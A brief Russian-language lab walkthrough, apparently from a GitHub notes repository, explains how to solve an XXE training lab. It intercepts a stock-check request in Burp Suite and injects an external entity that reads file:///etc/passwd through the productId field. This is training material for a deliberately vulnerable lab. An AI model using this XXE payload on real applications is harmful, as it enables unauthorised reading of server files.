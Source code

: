 ## Lab: Exploiting XXE using external entities to retrieve files
1) Переходим на сайт задания и выбираем любой продукт.
2) Нажимаем "Check stock" и перехватываем запрос через Burp Suite.
3) Между объявлением xml и stockCheck вставляем:
'''
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
'''
4) Значение в productId меняем на &xxe;
5) Отправляем запрос

![](https://github.com/NaylyaZh99/hacking/blob/master/lab%20XXE/task1/image.png)

Готово!
